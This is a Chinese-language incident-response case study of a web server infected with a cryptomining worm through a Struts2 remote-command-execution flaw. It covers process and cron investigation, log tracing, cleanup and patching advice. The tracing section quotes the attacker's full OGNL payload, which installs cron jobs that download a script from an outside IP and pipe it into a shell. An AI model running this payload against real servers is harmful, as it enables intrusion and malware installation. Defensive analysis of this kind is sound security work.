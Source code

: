
# 0x00 前言
随着虚拟货币的疯狂炒作，利用挖矿脚本来实现流量变现，使得挖矿病毒成为不法分子利用最为频繁的攻击方式。新的挖矿攻击展现出了类似蠕虫的行为，并结合了高级攻击技术，以增加对目标服务器感染的成功率，通过利用永恒之蓝（EternalBlue）、web攻击多种漏洞（如Tomcat弱口令攻击、Weblogic WLS组件漏洞、Jboss反序列化漏洞、Struts2远程命令执行等），导致大量服务器被感染挖矿程序的现象 。


# 0x01 应急场景
某天，安全管理员在登录安全设备巡检时，发现某台网站服务器持续向境外IP发起连接，下载病毒源：

![linux-12-1.png](../../_img\05-应急响应/1656921710268-3ae710e9-131d-4f2b-8970-00aa6c653a04.png)


# 0x02 事件分析

#### A、排查过程
登录服务器，查看系统进程状态，发现不规则命名的异常进程、异常下载进程 :<br />![linux-12-2.png](../../_img\05-应急响应/1656921729697-23d27046-f5a0-4a17-baa0-3334da53b700.png)

![linux-12-3.png](../../_img\05-应急响应/1656921734289-02b5cf79-161b-40e8-8a32-e83ed5aa5b66.png)

下载logo.jpg，包含脚本内容如下：<br />![linux-12-4.png](../../_img\05-应急响应/1656921739782-cda8b500-6ed5-4298-aece-862ffdf72dea.png)

到这里，我们可以发现攻击者下载logo.jpg并执行了里面了shell脚本，那这个脚本是如何启动的呢？

通过排查系统开机启动项、定时任务、服务等，在定时任务里面，发现了恶意脚本，每隔一段时间发起请求下载病毒源，并执行 。<br />![linux-12-5.png](../../_img\05-应急响应/1656921749489-8e6b0470-8990-4861-b31d-c98ef9bff5e6.png)


#### B、溯源分析
在Tomcat log日志中，我们找到这样一条记录：<br />![linux-12-6.png](../../_img\05-应急响应/1656921757055-377239b9-f016-4b8e-a825-eefa6efbed0e.png)


对日志中攻击源码进行摘录如下：<br />`{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='echo "*/20 * * * * wget -O - -q http://5.188.87.11/icons/logo.jpg|sh\n*/19 * * * * curl http://5.188.87.11/icons/logo.jpg|sh" | crontab -;wget -O - -q http://5.188.87.11/icons/logo.jpg|sh').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}`

可以发现攻击代码中的操作与定时任务中异常脚本一致，据此推断黑客通过Struct 远程命令执行漏洞向服务器定时任务中写入恶意脚本并执行。


#### C、清除病毒
1、删除定时任务:<br />![linux-12-7.png](../../_img\05-应急响应/1656921766104-cf344005-adf3-4b4e-b4fe-99689c21d422.png)

2、终止异常进程:<br />![linux-12-8.png](../../_img\05-应急响应/1656921770914-d1dda73b-351b-43aa-8f27-b8dc69bb6a3a.png)


#### D、漏洞修复

	升级struts到最新版本


# 0x03 防范措施
针对服务器被感染挖矿程序的现象，总结了几种预防措施：
```
1、安装安全软件并升级病毒库，定期全盘扫描，保持实时防护
2、及时更新 Windows安全补丁，开启防火墙临时关闭端口
3、及时更新web漏洞补丁，升级web组件
```
